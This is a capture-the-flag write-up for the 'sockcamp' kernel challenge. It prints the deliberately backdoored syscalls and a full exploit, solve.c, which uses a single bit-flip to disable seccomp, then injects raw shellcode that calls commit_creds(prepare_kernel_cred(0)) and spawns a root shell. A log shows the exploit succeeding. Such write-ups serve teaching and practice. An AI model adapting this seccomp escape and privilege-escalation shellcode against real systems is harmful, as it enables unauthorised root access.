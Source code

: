 # sockcamp

Somebody added a suspicious syscall to my kernel...  
No problem! I blocked it with seccomp and now nobody can use it ;)

```  
nc 35.224.135.84 1003  
```

Note: You can use the attached SDK to compile your exploit

Attachments:  
- `sockcamp.zip`  
- `x86_64-buildroot-linux-uclibc_sdk-buildroot.tar.gz`

## Overview

We have two custom syscalls defined.

```c  
#include <linux/kernel.h>  
#include <linux/syscalls.h>

#define __NR_FLIP 555  
#define __NR_INJECT 556

unsigned long flips = 0;

SYSCALL_DEFINE2(flip, unsigned long, offset, unsigned char, bit)  
{  
	if (flips > 0 || offset >= sizeof(struct task_struct) || bit >= 8) {  
		printk(KERN_ALERT "[backdoor] No\n");  
		return -EPERM;  
	}

	((unsigned char *)current)[offset] ^= (1 << (bit));  
	flips++;

	return 0;  
}

typedef void func(void);

SYSCALL_DEFINE2(inject, void *, addr, unsigned long, len)  
{  
	void *buf;  
	buf = __vmalloc(128, GFP_KERNEL, PAGE_KERNEL_EXEC);  
	if (len < 128) {  
		if (copy_from_user(buf, addr, len) == 0) {  
			printk(KERN_INFO  
			       "[backdoor] Copied %lu bytes from userland\n",  
			       len);  
		}  
		((func *)buf)();  
	}

	return 0;  
}  
```

Unfortunately the `inject` syscall is blocked by seccomp.

## Solution

### Step 1

Disable seccomp with a single bit-flip in the current `task_struct` using
syscall 555:

```c  
current->thread_info.flags &= ~_TIF_SECCOMP;  
```

Explanation: https://youtu.be/mKzUA3j6myg

### Step 2

Execute `commit_creds(prepare_kernel_cred(0))` using syscall 556 to escalate  
 privileges. KASLR is disabled so the addresses are fixed. See `inject.py` to  
 see how to assemble the code.

---

Final exploit in `solve.c`:  
```c  
int main() {  
   int r;

   printf("[solve] Escaping seccomp");  
   unsigned long offset = 1;  
   unsigned long bit = 0;  
   r = syscall(555, offset, bit);  
   assert(r == 0);

   printf("[solve] UID before escalating privs: %d\n", getuid());

   char escalate_privs[31] = {0x48, 0x31, 0xff, 0x48, 0xb9, 0xc0, 0x81, 0x08,  
                              0x81, 0xff, 0xff, 0xff, 0xff, 0xff, 0xd1, 0x48,  
                              0x89, 0xc7, 0x48, 0xb9, 0x80, 0x7e, 0x08, 0x81,  
                              0xff, 0xff, 0xff, 0xff, 0xff, 0xd1, 0xc3};

   r = syscall(556, escalate_privs, 31);  
   printf("[solve] syscall(556) = %d\n", r);  
   assert(r == 0);

   printf("[solve] UID after escalating privs: %d\n", getuid());  
   assert(getuid() == 0);

   // This child process should still be seccomped, but it doesn't matter  
   execlp("/bin/sh", "/bin/sh", NULL);

   return 0;  
}  
```

Output:

```  
$ python3 client.py HOST=35.224.135.84 PORT=1003 EXPLOIT=solve  
[x] Opening connection to 35.224.135.84 on port 1003  
[x] Opening connection to 35.224.135.84 on port 1003: Trying 35.224.135.84  
[+] Opening connection to 35.224.135.84 on port 1003: Done  
[*] Solving PoW ...  
[DEBUG] Received 0x34 bytes:  
   b'Send the output of: hashcash -mb26 gsji19cJeCDSmj8N\n'  
[+] Solved PoW  
[DEBUG] Sent 0x35 bytes:  
   b'1:26:210613:gsji19cjecdsmj8n::kjm3fW3I7ePrO41C:4GYop\n'  
rt  
...  
$ chmod +x solve  
$ ./solve  
./solve  
[solve] Sanity check: syscall 556 should be blocked[solve] syscall(556) = -1  
[solve] Escaping seccomp[solve] syscall(555) = 0  
[solve] UID before escalating privs: 1000  
[   22.705578] [backdoor] Copied 31 bytes from userland  
[solve] syscall(556) = 0  
[solve] UID after escalating privs: 0  
/bin/sh: can't access tty; job control turned off  
$ id  
id  
uid=0(root) gid=0(root)  
$ cat /flag  
cat /flag  
CCC{n0t_r3ally_4_r0wh4mm3r_ch3ll3ng3}  
```  

Original writeup
(https://github.com/qxxxb/ctf_challenges/blob/master/2021/ccc/pwn/sockcamp/solve).